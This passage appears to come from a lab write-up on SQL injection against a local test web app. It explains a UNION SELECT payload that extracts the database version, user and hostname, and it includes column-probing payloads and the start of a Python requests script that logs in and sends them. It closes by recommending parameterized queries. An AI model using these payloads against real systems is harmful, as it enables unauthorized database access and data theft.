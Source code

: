 4. **Effect of the Payload:**
   When this payload is inserted into the SQL query, it transforms the query to:
   ```sql
   SELECT ProductName, ProductType, Description, Price FROM products WHERE ProductName LIKE '%1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- %';
   ```
   The UNION SELECT part retrieves the database information and appends it to the results of the original query.

5. **Executing the Payload:**
   By submitting this payload through the search form, the application runs the modified query and includes the server information in the search results.

6. **Extracting and Displaying the Information:**
   The script parses the HTML response to locate the table containing the search results. The relevant information (MySQL version, current user, and hostname) is then extracted and displayed.

#### Python Script Usage
The provided Python script automates this injection process:
- It sends a POST request with the crafted payload.
- Parses the response to extract and display the table containing the server information.

By running this script, we successfully extracted critical server information using SQL injection, demonstrating the risks associated with insecure handling of user input in web applications.

### Summary
The SQL injection worked by leveraging the UNION SELECT statement to retrieve database information. Identifying the correct number of columns was crucial to ensuring the success of the injection. This exercise underscores the importance of using prepared statements or parameterized queries to prevent SQL injection attacks.


```python
import requests
from bs4 import BeautifulSoup
from IPython.core.display import display, HTML

# URL of the login and search pages
login_url = 'http://localhost:8000/login.php'
search_url = 'http://localhost:8000/searchproducts.php'

# Credentials for login
username = 'bob'
password = 'password'  # Assuming the password for bob is 'password'

# List of payloads to determine the number of columns
payloads = [
    "1' UNION SELECT NULL -- ",
    "1' UNION SELECT NULL, NULL -- ",
    "1' UNION SELECT NULL, NULL, NULL -- ",
    "1' UNION SELECT NULL, NULL, NULL, NULL -- ",
    "1' UNION SELECT NULL, NULL, NULL, NULL, NULL -- ",
    "1' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL -- "
]

# Create a session to persist cookies
session = requests.Session()

# Data to be sent in the POST request for login
login_data = {
    'uid': username,
    'password': password
}

# Send the POST request to login
login_response = session.post(login_url, data=login_data)
```